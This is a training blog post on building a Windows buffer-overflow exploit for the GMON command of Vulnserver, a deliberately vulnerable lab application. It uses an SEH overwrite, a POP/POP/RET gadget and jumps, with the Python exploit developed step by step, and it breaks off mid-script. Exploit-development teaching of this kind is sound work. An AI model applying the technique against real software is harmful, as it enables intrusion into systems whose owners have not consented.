:slug: vulnserver-gmon/
:date: 2020-06-16
:category: attacks
:subtitle: Exceptions are good
:tags: challenge, ethical hacking, pentesting, security, training, exploit
:image: cover.png
:alt: Photo by Roberto Gomez Angel on Unsplash
:description: In previous posts, we have seen different techniques to exploit Vulnserver commands. All of them have something in common: direct EIP overwrite. In this post, we will explore Structured Exception Handling (SEH) overwritting for taking control of the flow of our victim application.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSCE
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/KmKZV8pso-s

= GMON exploiting: Harnessing SEH

This is the fourth article on the series of exploiting `Vulnserver`,
a VbD (Vulnerable-by-Design) application in which you can practice Windows
exploit development.

In our previous posts, we have successfully exploited `TRUN` and `GTER`
commands. Both of them had something in common: direct EIP overwrite, in which
our buffer directly overwrote the `return address` on the stack frame
of the affected function with a `JMP` instruction to execute the code on
our controlled buffer.

In this post, we will exploit the `GMON` command using a Structured
Exception Handling (SEH) overwrite to take control of the flow of Vulnserver.

== Structured Exception Handling

SEH is a non-standard mechanism created by Microsoft to handle exceptions
of applications using an uniform structure. It allows C/C++ programs using
the well known exception handling syntax (`try-except-finally`) used by other
high-level imperative languages. This is an example:

[source,c]
----
__try {
    ....
    strcpy(mybuff, myinput);
}
__except (INSUFFICIENT_MEMORY) {
    my_exception_handler();
}
----

As you may imply, this code will try to execute `strcpy()` and if it fails
because `INSUFFICIENT_MEMORY`, it will execute `my_exception_handler()`.

As there may be many exceptions, some expliticy declared by the
application and other by the OS, the handlers are tied together by a chain
of `_EXCEPTION_REGISTRATION_RECORD` structures, the last one (identified by
`FFFFFFFF`) being the default handler.

When an exception ocurs, the OS will walk the SEH chain finding which of them
can handle that exception. If none of the handlers have that exception
registered, the default handler (`FFFFFFFF`) will be triggered.

The structure of `_EXCEPTION_REGISTRATION_RECORD` is:

[source,c]
----
typedef struct _EXCEPTION_REGISTRATION_RECORD
{
     PEXCEPTION_REGISTRATION_RECORD Next;
     PEXCEPTION_DISPOSITION Handler;
} EXCEPTION_REGISTRATION_RECORD, *PEXCEPTION_REGISTRATION_RECORD;
----

Where the `Next` parameter is a pointer to the next exception handler, also
called `nSEH` and the `Handler` parameter is a pointer to the handler itself.
We can see the exception handler's chain on a debugger:



And on the stack, it is shown as:



More information of SEH can be found on
link:https://docs.microsoft.com/en-us/cpp/cpp/structured-exception-handling-c-cpp?view=vs-2019[Microsoft's site]

== SEH exploiting

To oversimplify, the main goal to exploit a program using SEH is to have the
ability to overwrite the exception handler pointer
(`my_exception_handler()` in our example) of the vulnerable function  with
 a pointer to our own controlled code.

Some things must be in place in order for us to successfully exploit an
application using SEH:

. The application must have SEH built in. This is a compile-time option.
. Our buffer will be allowed to past far enough in the stack frame to reach
the SEH handler of the function.
. The application must be compiled with `SafeSEH=Off`

`SafeSEH` is a mechanism created since Windows XP that statically defines
the list of the allowed exception handlers, and if the application tries to
call something different, a crash will happen.

Ok, now with that brief summary of SEH, let's get our hands dirty.

== Fuzzing GMON

As with the other Vulnserver commands, the `GMON` command takes a single
parameter, so we can reuse our Spike fuzz template:

[source,c]
----
s_string("GMON ");
s_string_variable("*");
----

Remember that the `s_string` command will send an immutable string to
the fuzzed protocol and `s_string_variable` tells `Spike` to use
that string as a fuzz point.

And run it:



We got the crash!

And as with the other Vulnserver commands, it seems that 5060 bytes of data
triggered the crash:



We can create our first proof-of-concept exploit:

.exploit.py
[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * 5000
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

Now run our exploit with `vulnserver.exe` attached to a debugger:



As you can see, we effectively crashed `vulnserver.exe` but EIP does not
seem to mangled by our buffer.

However, if we look at the SEH chain table, we will see this:



That means that we effectively triggered an exception and overwrote the
exception handler with our buffer. If we trigger the exception handler (in
Immunity Debugger, it's done with `Shift+F9`), this will happen:



We control EIP! That means that we have control over the execution flow again.

We can now exploit this.

== Exploiting

We first need to find the exact offset on where the SEH handler gets
overwritten. We can do that by creating a cyclic pattern
using `pattern_create.rb` from Metasploit:

[source,bash]
----
$ msf-pattern_create -l 5000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac....
----

Let's add that pattern to our exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'<insert pattern here>'
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And run it:



As you can see, the handler was overwritten with `346F4533`. To find
the offset in which the SEH handler get overwritten, we can
use `pattern_offset.rb`:

[source,bash]
----
$ msf-pattern_offset -q 346F4533
[*] Exact match at offset 3551
----

Great, the offset on which the SEH handler starts to be overwritten is `3551`.

To check that offset, we can inject:

. 3551 `A` characters
. 4 `B` characters
. 5000 - 3551 - 4 = 1445 `C` characters

If the SEH handler gets overwritten with our `B` buffer, we got it right. This
is our updated exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * 3551 +
    b'B' * 4 +
    b'C' * 1445
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And the result:



Awesome!

Now, what would normally happen is to find a `JMP ESP` instruction.

However, let's look the state of the stack after triggering the exception
handler:



We can see several things here:

. `EIP` is `42424242`
. There are 8 bytes between the `ESP` at `0104EBA0` and our buffer at
`0104EBA8`
. So, if we'd run a `JMP ESP`, we'd land at a pointer which we don't control
and exploitation will fail.

So we need to find a way of removing those 8 bytes off of the stack in order
to redirect the execution flow to our buffer.

== POP/POP/RET

The x86 stack is a LIFO (Last In First Out) structure on where the last item
pushed on the stack is the first to be poped back. Each `PUSH`
instruction will exactly push 4 bytes to the stack and every `POP`
instruction will pop exactly 4 bytes off of the stack.

With that in mind, and knowning that we need to remove 8 bytes off of the
stack to then return to our controlled buffer, we need to find an
address of a sequence of these instructions:

[source,asm]
---
POP R32           ; R32 can be any 32 bits register
POP R32
RET
---

The first `POP` will remove the first 4 bytes of the stack, the next `POP` the
other 4 bytes. The `RET` will redirect the execution flow to our buffer.

We can find those 3 instructions using many ways. I will use `mona.py`:

[source,bash]
----
!mona seh -cp nonull -cm safeseh=off -o
----

This will tell `mona.py` to find `POP/POP/RET` instruction sequences and
omit addresses with null caracters (`-cp nonull`), omit addresses on
modules compiled with `SafeSEH` (`-cm safeseh=off`) and omit addresses
on modules of the OS (`-o`).



And we got 12 different options. We can choose any of those.
I will choose the sequence at `625011FB` just because :)

We can now update our exploit with that address:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * 3551 +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 1445
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And run it:



Weeeeeeeh! We overwrote the SEH handler, triggered the exception and
redirected to a `POP/POP/RET` sequence that returned to our controlled buffer!

However...!

We landed only 4 bytes before our injected `POP/POP/RET` address. Remember the
`_EXCEPTION_REGISTRATION_RECORD` structure? It has 2 members, the SEH handler
which we are overwritting with the `POP/POP/RET` address and the pointer to
the next exception handler, also called `nSEH`. So, we landed at `nSEH`.

However, just after the injected address there's a good 43 bytes buffer and
before `nSEH` we had our 3500+ bytes buffer of `A`.

So, what's next? That's right! We must jump around again!

== Jump around

We only have 4 bytes to perform our first jump. Fortunately for us, short
jumps are only link:https://thestarman.pcministry.com/asm/2bytejumps.htm[2 bytes long]

So, we must perform a short jump of at least 8 bytes to get past *over* our
injected address and land on our `C` buffer. We can get the needed opcodes
using `nasm_shell.rb`:

[source,bash]
----
$ msf-nasm_shell
nasm > jmp short +0xa
00000000  EB08              jmp short 0xa
----

*Fun fact:* Note that we told to perform a 10 byte (`0xa`) jump and the
returned opcode was `EB08`. It's because the `JMP` will calculate the offset
including the length of the `JMP` instruction alone which is 2 bytes.

Ok, with our short jump opcode, with can update our exploit:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * (3551 - 4) +
    # JMP SHORT +0xa
    b'\xeb\x08' +
    # NOP NOP to fill the 4 bytes of nSEH
    b'\x90\x90' +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 1445
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And see if we could effectively jump over the SEH handler:



Yes! We are past our SEH handler. Now we have enough room of bytes to perform
a long jump backwards to the start of our `A` buffer. With the help of the
debugger, we get the needed offset simply by telling it to jump to the
start of our `A` buffer and letting it calculate the offset.



As you can see, the resultant bytes are `E9 16 F2 FF FF`.

Let's update our exploit with that:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * (3551 - 4) +
    # JMP SHORT +0xa
    b'\xeb\x08' +
    # NOP NOP to fill the 4 bytes of nSEH
    b'\x90\x90' +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 2 +
    # JMP long backwards to the start of our 'A' buffer
    b'\xe9\x16\xf2\xff\xff' +
    b'C' * (1445 - 2 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
